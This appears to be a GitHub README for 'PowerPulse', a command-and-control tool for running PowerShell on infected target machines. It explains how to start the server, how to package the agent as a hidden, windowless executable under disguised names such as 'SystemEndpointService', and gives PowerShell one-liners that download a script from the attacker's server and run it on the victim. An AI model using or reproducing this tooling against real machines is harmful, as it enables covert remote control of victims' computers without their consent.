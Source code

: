# PowerPulse C2 Overview
PowerPulse is a basic C2 that lets you execute powershell commands on target machines once the machines are infected with a custom executable file
## C2 Dashboard
![C2 Dashboard](https://github.com/user-attachments/assets/1ff09483-effb-4be1-8425-63b6fa1884fe)

## C2 Agent Details Page
![C2 Agent Details Page 1](https://github.com/user-attachments/assets/a98fd428-fdee-4a37-9ccb-0270a2bea8d5)

## Installation
Clone the repository and then install virtual environment:
```bash
python3 -m venv venv
```
Next, activate virtual environment:
```bash
source venv/bin/activate  # On macOS/Linux
venv\Scripts\activate     # On Windows
```
Then, install all the required packages:
```bash
pip install -r requirements.txt
```

## Server
You should include 3 JSON files in /server directory: agents.json, commands_output.json, commands.json

Run the server:
```bash
python server/server.py
```

## Agent
### Run agent from python file
```bash
python agent/agent.py
```
### Install EXE
```bash
pyinstaller --onefile --noconsole --icon=cog.ico agent.py
```

### Install EXE (with a different name)
```bash
pyinstaller --onefile --noconsole --icon=cog.ico --name=ExeName agent.py
```

### Install EXE (with a name + a custom version file)
```bash
pyinstaller --onefile --noconsole --icon=cog.ico --name=ExeName --version-file=version.txt agent.py
```

## Custom powershell script usage:

To run custom powershell scripts on target machine (Agent), you can execute this command:
```powershell
Invoke-Expression ( [System.Text.Encoding]::UTF8.GetString((Invoke-WebRequest -Uri "http://[SERVER_IP]:5000/static/scripts/script.ps1").Content) )
```

Change wallpaper to cat image:
```powershell
Invoke-Expression ( [System.Text.Encoding]::UTF8.GetString((Invoke-WebRequest -Uri "http://[SERVER_IP]:5000/static/scripts/wallpaper.ps1").Content) )
```

Amilnen istifade elediyimiz pyinstaller (exe duzelden):
```
python -m PyInstaller --onefile --noconsole --icon=cog.ico --name=SystemEndpointService agent.py
```